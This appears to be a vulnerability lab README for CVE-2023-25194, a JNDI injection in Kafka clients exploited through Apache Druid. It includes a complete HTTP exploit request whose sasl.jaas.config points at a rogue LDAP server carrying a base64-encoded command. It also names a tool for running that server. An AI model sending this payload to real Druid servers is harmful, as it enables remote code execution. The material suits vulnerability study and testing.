



# Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

Because this issue exists in a Java library, we have to find a real world software that is using the kafka-clients.

This software is Apache Druid, which is depended on kafka-clients to connect to one of its datasources. This guide is demonstrates how to exploit CVE-2023-25194 in the Apache Druid server.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## Vulnerable Environment

Execute following command to start a Apache Druid server 25.0.0 which is depended on kafka-clients 3.3.1:

```
docker compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Firstly, use [JNDIExploit](https://github.com/vulhub/JNDIExploit) to start a rogue JNDI server:



You will get some evil urls from this tool, modify it.

Paste the evil LDAP url into following request and send it:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```



As you can see, `id > /tmp/success` was executed successfully:


